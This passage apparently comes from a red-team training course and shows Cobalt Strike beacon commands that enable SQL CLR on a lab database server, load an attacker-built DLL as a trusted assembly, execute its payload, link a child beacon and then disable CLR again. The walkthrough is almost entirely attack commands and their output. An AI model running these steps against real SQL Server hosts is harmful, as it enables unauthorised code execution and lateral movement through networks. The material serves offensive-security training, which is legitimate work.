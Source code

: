Check if SQL CLR is enabled, and enable it if required using `sql-enableclr`.

```batch
beacon> sql-query lon-db-1 "SELECT value FROM sys.configurations WHERE name = 'clr enabled'"

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] Executing custom query on lon-db-1

value | 
--------
0 | 

[*] Disconnecting from server

beacon> sql-enableclr lon-db-1

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] Toggling clr enabled on lon-db-1...

name | value_in_use | 
----------------------
clr enabled | 1 | 

[*] Disconnecting from server
```

Now load and execute the assembly using `sql-clr`.

```batch
beacon> sql-clr lon-db-1 C:\Users\Attacker\source\repos\ClassLibrary1\bin\Release\ClassLibrary1.dll MyProcedure

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] Performing CLR custom assembly attack on lon-db-1

[*] CLR is enabled
[!] Error fetching results
[*] Assembly hash does not exist (error fetching result normal)
[*] Added SHA-512 hash for DLL to sys.trusted_assemblies with the name "spijufut"
[*] Creating a new custom assembly with the name "sockuoyl"
[*] Loading DLL into stored procedure "MyProcedure"
[*] Created "[sockuoyl].[StoredProcedures].[MyProcedure]"
[*] Executing payload...
[*] Cleaning up...

[*] Disconnecting from server

beacon> link lon-db-1 TSVCPIPE-4b2f70b3-ceba-42a5-a4b5-704e1c41337
[+] established link to child beacon: 10.10.120.20
```

<figure><img src="https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/d0c098fa611b3c18f0dd78387a78c38d.png" alt="" height="82" width="692"><figcaption></figcaption></figure>

Finally, set SQL CLR back to disabled using `sql-disableclr`.

```
beacon> sql-disableclr lon-db-1
```

